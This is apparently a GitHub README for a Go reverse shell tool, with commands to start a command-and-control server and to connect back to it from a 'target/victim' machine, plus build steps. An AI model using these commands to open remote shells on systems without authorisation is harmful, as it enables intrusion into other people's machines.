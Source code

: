 # Shell Alert 2

Simple reverse shell client and server written in go.

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

Start command and control server (barracks)

```bash
barracks 1337
```

Now connect from the target/victim system, specifying the hostname/ip of the barracks, and port that the barracks is listening on (1337 in our example)
```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

Build everything

```
make all
```

